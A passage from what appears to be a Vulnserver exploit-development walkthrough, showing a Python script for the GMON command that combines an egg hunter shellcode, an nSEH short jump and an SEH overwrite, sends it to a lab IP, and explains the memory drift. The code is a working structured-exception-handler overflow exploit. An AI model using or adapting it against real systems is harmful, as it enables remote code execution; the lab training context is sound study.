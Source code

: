Placing the egg hunter inside our python script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat egghunter.py
import socket, sys

egg=b""
egg+=b"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
egg+=b"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
egg+=b"\x05\x74\xdf\xb8\x50\x57\x4e\x44\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
egg+=b"\xff\xe7"

nseh=b""
nseh=b"\xeb\xb6"
nseh+=b"\x90\x90"

seh=b"\xb4\x10\x50\x62"

payload=b""
# to overwrite buffer and EBP
# NOP sled
payload+=b"\x90"*(3549-70)
# egghunter
payload+=egg
payload+=b"A"*(3549-len(payload))

# to overwrite nSEH
payload+=nseh
# to overwrite SEH
payload+=seh
# padding
payload+=b"D"*(5000-len(payload))

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()


┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 egghunter.py
```

After running this, our program crashes and we will be drifted back 75 bytes from nSEH and we will be ahead of our egg hunter while executing it in runtime

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-egg-drift.png">
</div>

So we can control SEH and drift back in memory and reach our egg hunter too
